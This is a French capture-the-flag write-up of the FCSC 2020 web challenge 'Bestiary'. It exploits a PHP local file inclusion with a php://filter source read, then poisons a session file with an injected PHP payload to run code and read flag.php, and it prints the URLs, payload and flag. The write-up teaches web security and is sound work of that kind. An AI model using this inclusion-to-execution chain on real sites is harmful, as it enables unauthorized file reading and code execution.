

# Bestiary

Je vais présenter ici, comment j'ai résolu le challenge Bestiary du [FCSC 2020](https://www.france-cybersecurity-challenge.fr/)


## Repérage

Tout d'abord on va voir à quoi nous allons avoir affaire.


On a ici une page Web avec un formulaire qui contient un input select et un bouton submit. Rien de ouf ouf ouf. En inspectant le code source, rien de suspect. Une page web classique en somme.

On va sélectionner une valeur et valider le formulaire pour voir ce qu'il se passe


On a ici une page contenant une image, une description, et le formulaire vu précédemment.

## La recette ~~de la potion magique~~ de la page Web

Le premier réflexe, est de regarder la tronche de l'URL


```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=mimic
```

Il y a ici un paramètre "monster" qui est transmis en GET.
On voit aussi que la page a été générée à l'aide d'un script [PHP](https://fr.wikipedia.org/wiki/PHP) (index.php).

La récupération d'une valeur en GET est faite avec la variable [`$_GET`](https://www.php.net/manual/fr/reserved.variables.get.php)

```php
$monster = $_GET['monster'];
```

Que se passe-t-il si nous injectons le caractère '*' dans ce paramètre ?


Oh ! Mais WTF ? Une belle erreur [PHP](https://fr.wikipedia.org/wiki/PHP) qui tâche comme un bon gros [Flamby](https://fr.wikipedia.org/wiki/Flanby) qui fait blob blob et qui en fout absolument partout dans la cuisine quand on tape dessus.

À partir de cette erreur, il est aisé de deviner comment est foutu le code derrière ça.
Un truc comme ça par exemple :

```php
<?php
// Blablabla code PHP

include($_GET['monster']);

//Blablabla j'affiche le résultat
```

Et si on essaie de détourner cette instruction pour récupérer le contenu du code [PHP](https://fr.wikipedia.org/wiki/PHP) de cette page ?

Here we go !

On va écrire ça par exemple dans l'URL :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```

Alors, ici, on va dire à la fonction [include](https://www.php.net/manual/fr/function.include.php) (vu au-dessus), de nous encoder en base64 le contenu du fichier index.php et de l'inclure (vu que c'est son nom à la petite fonction) dans la page.

On teste ?

Résultat :


BIG BADABOOM !

On a réussi à afficher, encodé en base64 certes, le contenu du fichier index.php.

Du coup, il nous reste juste à le décoder.

Étant donné que je suis plus à l'aise avec [PHP](https://fr.wikipedia.org/wiki/PHP), pour aller plus vite, je vais utiliser un prompt [PHP](https://fr.wikipedia.org/wiki/PHP) pour décoder ça avec la commande

```php -a```

Une fois sur le prompt, on va utiliser la fonction [`base64_decode`](https://www.php.net/manual/fr/function.base64-decode.php)

```
php > echo base64_decode(' PD9waHAKCXNlc3Npb25fc2F2ZV9wYXRoKCIuL3Nlc3Npb25zLyIpOwoJc2Vzc2lvbl9zdGFydCgpOwoJaW5jbHVkZV9vbmNlKCdmbGFnLnBocCcpOwo/Pgo8aHRtbD4KPGhlYWQ+Cgk8dGl0bGU+QmVzdGlhcnk8L3RpdGxlPgo8L2hlYWQ+Cjxib2R5IHN0eWxlPSJiYWNrZ3JvdW5kLWNvbG9yOiMzQ0IzNzE7Ij4KPGNlbnRlcj48aDE+QmVzdGlhcnk8L2gxPjwvY2VudGVyPgo8c2NyaXB0PgpmdW5jdGlvbiBzaG93KCkKewoJdmFyIG1vbnN0ZXIgPSBkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgibW9uc3RlciIpLnZhbHVlOwoJZG9jdW1lbnQubG9jYXRpb24uaHJlZiA9ICJpbmRleC5waHA/bW9uc3Rlcj0iK21vbnN0ZXI7Cn0KPC9zY3JpcHQ+Cgo8cD4KPD9waHAKCSRtb25zdGVyID0gTlVMTDsKCglpZihpc3NldCgkX1NFU1NJT05bJ21vbnN0ZXInXSkgJiYgIWVtcHR5KCRfU0VTU0lPTlsnbW9uc3RlciddKSkKCQkkbW9uc3RlciA9ICRfU0VTU0lPTlsnbW9uc3RlciddOwoJaWYoaXNzZXQoJF9HRVRbJ21vbnN0ZXInXSkgJiYgIWVtcHR5KCRfR0VUWydtb25zdGVyJ10pKQoJewoJCSRtb25zdGVyID0gJF9HRVRbJ21vbnN0ZXInXTsKCQkkX1NFU1NJT05bJ21vbnN0ZXInXSA9ICRtb25zdGVyOwoJfQoKCWlmKCRtb25zdGVyICE9PSBOVUxMICYmIHN0cnBvcygkbW9uc3RlciwgImZsYWciKSA9PT0gRmFsc2UpCgkJaW5jbHVkZSgkbW9uc3Rlcik7CgllbHNlCgkJZWNobyAiU2VsZWN0IGEgbW9uc3RlciB0byByZWFkIGhpcyBkZXNjcmlwdGlvbi4iOwo/Pgo8L3A+Cgo8c2VsZWN0IGlkPSJtb25zdGVyIj4KCTxvcHRpb24gdmFsdWU9ImJlaG9sZGVyIj5CZWhvbGRlcjwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0iZGlzcGxhY2VyX2JlYXN0Ij5EaXNwbGFjZXIgQmVhc3Q8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9Im1pbWljIj5NaW1pYzwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0icnVzdF9tb25zdGVyIj5SdXN0IE1vbnN0ZXI8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9ImdlbGF0aW5vdXNfY3ViZSI+R2VsYXRpbm91cyBDdWJlPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJvd2xiZWFyIj5Pd2xiZWFyPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJsaWNoIj5MaWNoPC9vcHRpb24+Cgk8b3B0aW9uIHZhbHVlPSJ0aGVfZHJvdyI+VGhlIERyb3c8L29wdGlvbj4KCTxvcHRpb24gdmFsdWU9Im1pbmRfZmxheWVyIj5NaW5kIEZsYXllcjwvb3B0aW9uPgoJPG9wdGlvbiB2YWx1ZT0idGFycmFzcXVlIj5UYXJyYXNxdWU8L29wdGlvbj4KPC9zZWxlY3Q+IDxpbnB1dCB0eXBlPSJidXR0b24iIHZhbHVlPSJzaG93IGRlc2NyaXB0aW9uIiBvbmNsaWNrPSJzaG93KCkiPgo8ZGl2IHN0eWxlPSJmb250LXNpemU6NzAlIj5Tb3VyY2UgOiBodHRwczovL2lvOS5naXptb2RvLmNvbS90aGUtMTAtbW9zdC1tZW1vcmFibGUtZHVuZ2VvbnMtZHJhZ29ucy1tb25zdGVycy0xMzI2MDc0MDMwPC9kaXY+PGJyIC8+CjwvYm9keT4KPC9odG1sPgo=');
```

Ça nous retourne le code suivant :

```php class:"lineNo"
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> <input type="button" value="show description" onclick="show()">
<div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```
Décomposons un peu ce qu'on voit là dedans

```php
<?php
    session_save_path("./sessions/");
    session_start();
    include_once('flag.php');
?>
```
Tout d'abord on voit ici que les sessions sont stockées dans un dossier `sessions` qui se trouve dans le répertoire courant sur le serveur.
Ensuite on voit un appel à la fonction `include_once` qui inclut un fichier `flag.php`.

On sait désormais que le flag se situe dans ce fichier.

Continuons un peu plus loin

```php
<?php
    $monster = NULL;

    if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
        $monster = $_SESSION['monster'];
    if(isset($_GET['monster']) && !empty($_GET['monster']))
    {
        $monster = $_GET['monster'];
        $_SESSION['monster'] = $monster;
    }

    if($monster !== NULL && strpos($monster, "flag") === False)
        include($monster);
    else
        echo "Select a monster to read his description.";
?>
```

On voit ici une variable `$monster` initialisée à la valeur `NULL`.

[`$_SESSION`](https://www.php.net/manual/fr/reserved.variables.session.php) une variable [superglobale](https://www.php.net/manual/fr/language.variables.superglobals.php) de [PHP](https://fr.wikipedia.org/wiki/PHP) qui stocke toutes les informations de la session courante.

On a un test qui nous dit :
- Si la clé `monster` est présente dans `$_SESSION` et qu'elle n'est pas vide, alors on met la valeur contenue dans `$_SESSION['monster']` dans `$monster`
- Si la clé `monster` est présente dans `$_GET` et que `$_GET['monster']` n'est pas vide, alors on met la valeur contenue dans `$_GET['monster']` dans `$monster`. Puis on copie la valeur contenue dans `$monster` dans `$_SESSION['monster']`
- Si `$monster` n'est strictement pas `NULL` et que `$monster` ne contient pas la chaîne de caractère `flag`, alors on inclut `$monster`. Sinon, on écrit un message "Select a monster [...]" blablabla.

En résumé, au chargement de la page, on récupère la valeur stockée dans la session. On l'écrase si une valeur nous a été fournie dans l'url. Si elle ne contient pas "flag", on l'inclut. Sinon, on affiche une belle phrase en anglais.

Bon. Du coup, on fait quoi ?

Déjà, on va vérifier qu'on a accès à notre fichier de session, vu qu'on sait où il est.


Via le navigateur, dans les outils de débuggage, on a accès aux cookies, notamment celui de session.

Son petit nom c'est `PHPSESSID`. On copie/colle la valeur et on va aller voir si le fichier existe bien via l'url

```
http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_3f1c7ead6618338b2f6370b32e678ade
```


On a bien accès au fichier de session qui contient :
- `monster` -> le nom de la clé de session
- `s:53:"php://filter/convert.base64-encode/resource=index.php";` -> une string de 53 caractères qui contient ce qu'on lui avait donné dans la requête précédente (celle qui récupère le code source d'index.php encodé en base64).

Youpi. Voilà. Le code ne ment jamais.

## Phase d'exploitation

Étant donné que, dans le code, on a une fonction `include` on pourrait imaginer exécuter du [PHP](https://fr.wikipedia.org/wiki/PHP) pour aller lire ce qu'il y a dans `flag.php`

Essayons avec le payload suivant dans l'URL

```php
<?php echo file_get_contents('flag.php'); ?>
```

Ce qui nous donnerait le lien suivant

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php'); ?>
```


Il ne se passe rien car nous avons la chaîne de caractère "flag", ils nous affiche la page d'accueil de base.

Si on retourne dans le fichier de session, on devrait voir la chaîne injectée.
```
http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_3f1c7ead6618338b2f6370b32e678ade
```


On voit donc que notre payload a bien été injecté dans le fichier de session.

Mais vous allez me dire

"- Et après ? T'as foutu une chaîne de caractère dans un fichier de session, t'es content ?"

Eh bah GRAVE ! Parce que si, au lieu d'injecter un bout de code [PHP](https://fr.wikipedia.org/wiki/PHP), on injecte le fichier de session, ce qui se trouve entre `<?php` et `?>` va être executé comme du code [PHP](https://fr.wikipedia.org/wiki/PHP) par la méthode include !

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=sessions/sess_3f1c7ead6618338b2f6370b32e678ade
```


On voit ici qu'on a bien un bout du fichier de session qui a été inclus car on voit un `monster|s:44:"`.

Du coup, si on regarde le code source de la page HTML on a ça


ET BAM !

On trouve le flag

```
FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}
```
P.S : Pardonnez-moi, j'ai essayé de mettre le moins de gros-mots ;)


## Références
[1] https://owasp.org/www-community/vulnerabilities/PHP_File_Inclusion

[2] https://owasp.org/www-community/attacks/Log_Injection
